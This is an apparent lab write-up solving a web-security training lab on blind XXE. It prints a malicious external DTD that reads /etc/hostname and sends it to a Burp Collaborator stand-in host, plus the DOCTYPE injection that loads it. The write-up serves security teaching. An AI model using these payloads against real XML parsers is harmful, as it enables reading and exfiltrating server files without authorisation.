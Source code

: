 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fb6c0cd4-2dc3-419e-bcdb-6058f7e3f000)

## Solution

The application has a product stock check endpoint.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c798ff75-201b-41ec-834c-4a8a209394c4)

The application checks for the stock level of a product by submitting XML to the server.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d2c0efb9-7826-4823-9764-0259abdc59d2)

Go to burp collaborator and click on **copy to clipboard**.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d6689c08-bab4-4dca-8d74-c8a27e40709e)

Go to exploit server and save the following malicious DTD file on your server and click on **"Store"**

```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

Place the Burp Collaborator payload into a malicious DTD file

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/69d90ea6-baac-4c39-8e70-a35da5d78c0b)

Click on **"View exploit"** and the file will be viewed.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/432f5cc0-ae12-4056-96f6-afed320f478a)

Insert the following external entity definition in between the XML declaration and the `stockCheck` element:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

Resubmit the request.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a692c610-3d5f-403c-98cb-610671c4587f)

Some DNS and HTTP interactions that were initiated by the application as the result of our payload.

The HTTP interaction contain the contents of the `/etc/hostname` file.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a633dc4a-f51a-4be2-a5db-4191558a1b34)

Enter the hostname in the **"Submit solution"** section.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/1bbaca60-168f-4ab7-95f3-90daa71d32f5)

Submission of the correct hostname solves the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/60748a0a-be19-4a95-abd9-bd68d93acf31)
